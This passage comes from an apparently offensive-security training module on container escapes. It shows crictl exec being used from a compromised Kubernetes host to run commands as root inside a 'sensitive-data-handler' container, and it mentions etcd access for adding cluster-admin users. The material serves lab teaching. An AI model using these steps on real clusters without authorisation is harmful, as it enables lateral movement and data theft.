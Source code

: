 While the garbage collection will prevent us from starting a new container, we should be able to execute commands in existing containers. Let's try to execute commands in the sensitive-data-handler container. We'll remember its container ID (fc9d6defaa941) for later.

The **exec** sub command will help with executing commands. Let's display the **help** menu for this subcommand.

```
victim:~# crictl exec --help
NAME:
   crictl exec - Run a command in a running container

USAGE:
   crictl exec [command options] CONTAINER-ID COMMAND [ARG...]

OPTIONS:
   --interactive, -i  Keep STDIN open (default: false)
   --sync, -s         Run the command synchronously (default: false)
   --timeout value    Timeout in seconds (default: 0)
   --tty, -t          Allocate a pseudo-TTY (default: false)
```

> Listing 21 - The Exec Subcommand in crictl

We find that to run **exec**, we need to provide the container ID and the command we want to execute. Let's attempt to execute the **hostname** and **whoami** command on the sensitive-data-handler container by specifying its ID: **fc9d6defaa941**.

```
victim:~# crictl exec fc9d6defaa941 hostname
sensitive-data-handler-56cc6f54b7-6nr8q

victim:~# crictl exec fc9d6defaa941 whoami
root
```

> Listing 22 - Executing Commands in Another Container

Excellent. From here, we should be able to _pivot_ and access data from the container. Where we move from this point depends on the access the other containers have.

It's important to note that running commands on the Kubernetes systems can potentially lead to a full compromise of the cluster. For example, access to the _etcd_ container in Kubernetes might allow us to add new _cluster-admin_ users. While these attacks are valid, they are out of scope for this Learning Module.

1

(Kubernetes, 2022), [https://kubernetes.io/docs/concepts/architecture/garbage-collection/#containers-images](https://kubernetes.io/docs/concepts/architecture/garbage-collection/#containers-images) [↩︎](https://portal.offsec.com/learning-paths/cloud-attacks-container-escapes-skill-path-178608/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fnref-local_id_181-1)

2

(Kubernetes Sigs, 2022), [https://github.com/kubernetes-sigs/cri-tools/blob/master/docs/crictl.md](https://github.com/kubernetes-sigs/cri-tools/blob/master/docs/crictl.md) [↩︎](https://portal.offsec.com/learning-paths/cloud-attacks-container-escapes-skill-path-178608/learning/container-escapes-interacting-with-the-host-51510/executing-commands-51564/labs-51511#fnref-local_id_181-2)
